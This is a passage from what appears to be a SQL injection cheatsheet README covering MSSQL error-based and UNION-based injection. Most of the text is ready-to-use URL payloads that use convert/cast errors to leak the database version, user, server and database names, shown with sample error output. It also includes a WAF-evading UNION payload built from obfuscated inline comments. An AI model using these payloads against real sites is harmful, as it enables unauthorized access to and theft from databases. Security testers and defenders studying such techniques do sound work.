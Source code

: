 [](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#dumping-database-boolean-string)

`http://domain.com/index.php?id=1'and 1=convert(int,@@version)--`  
`http://domain.com/index.php?id=1'and 1=cast(@@version as int)-- -`  
Both payloads will return the same error, with the version output.

> Error: Warning: mssql_query() message: COnversion failed when converting the nvarchar value "**Microsoft SQL Server 2012 (SP1) - 110.0.3156.0 (X64) Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows NT 6.2 X64 (Build 9200: ) (Hypervisor)**" to data type int. (severity 16 in D:\something\web\STD...\id.php on line...

`http://domain.com/index.php?id=1'and 1=convert(int,user_name())--`  
`http://domain.com/index.php?id=1'and 1=cast(user_name as int)-- -`  
Both payloads will return the same error, with the version output.

> Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**admin_user**' to data type int. (severity 16) in D:\something\web\STD...\id.php on line...

`http://domain.com/index.php?id=1'and 1=convert(int,@@SERVERNAME())--`  
`http://domain.com/index.php?id=1'and 1=cast(@@SERVERNAME as int)-- -`  
Both payloads will return the same error, with the server name output.

> Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**SERVER_NAME_HERE**' to data type int. (severity 16) in D:\something\web\STD...\id.php on line...

`http://domain.com/index.php?id=1'and 1=convert(int,db_name())--`  
`http://domain.com/index.php?id=1'and 1=cast(db_name() as int)-- -`  
Both payloads will return the same error, with the database name output.

> Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value '**store_database**' to data type int. (severity 16) in D:\something\web\STD...\id.php on line...

## Dumping database (UNION based query)

[](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/MSSQL%20-%20Error%20Based%20SQLi/README.md#dumping-database-union-based-query)

Use the union query which worked, in this case I bypassed WAF and found that the 3rd column is vulnerable with payload:  
`http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -`

Becasue of the 3rd column, replace number **3** with the following payloads to retrieve informations:

```
@@version  
db_name()  
user_name()
```

Example:  
Retrieve database version:  
`http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,@@version,4-- -`  
Look at the error message, the version will be displayed there.
